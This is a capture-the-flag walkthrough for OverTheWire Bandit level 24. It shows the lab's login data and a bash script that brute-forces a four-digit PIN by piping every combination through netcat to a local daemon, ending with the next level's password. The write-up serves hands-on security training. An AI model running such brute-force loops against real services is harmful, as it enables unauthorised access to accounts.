 
# Bandit challenges
# Bandit 24#

## Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Access data

+ Username: bandit24
+ Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
+ Port: 2220
+ Server: bandit.labs.overthewire.org
## Solution

```bash

ssh bandit24@bandit.labs.overthewire.org -p 2220

bandit24@bandit:~$ mkdir /tmp/ali
bandit24@bandit:~$ cd /tmp/ali
bandit24@bandit:/tmp/ali$ nano script.sh
Unable to create directory /home/bandit24/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit24@bandit:/tmp/ali$ chmod +x script.sh
bandit24@bandit:/tmp/ali$ cat script.sh
#!/bin/bash

password=VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

for i in {0000..9999};
do
        echo "$password $i";
done | nc localhost 30002 | grep -v Wrong
bandit24@bandit:/tmp/ali$ ./script.sh
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.



````

## Notes

## References